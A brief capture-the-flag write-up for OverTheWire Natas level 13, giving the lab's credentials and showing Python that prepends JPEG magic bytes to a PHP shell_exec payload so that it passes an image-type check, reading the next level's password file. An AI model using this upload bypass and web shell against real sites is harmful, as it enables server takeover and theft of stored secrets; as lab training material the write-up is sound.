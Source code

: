 # Natas Level 13
The ***URL*** to which you need to connect is *http://natas13.natas.labs.overthewire.org*. The ***username*** is *natas13* and the ***password*** is *jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY*. 

Lets check the [viewsource](http://natas13.natas.labs.overthewire.org/index-source.html) link.
By analyzing the php script in the source code We see a exif_imagetype bypass

```Python
fh = open('script.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<? echo shell_exec("cat /etc/natas_webpass/natas14"); ?>')
fh.close()
```
And we change the extension like we did in [Level12](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Natas/Natas10-20/Level12.md)
```
The password for natas14 is Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```
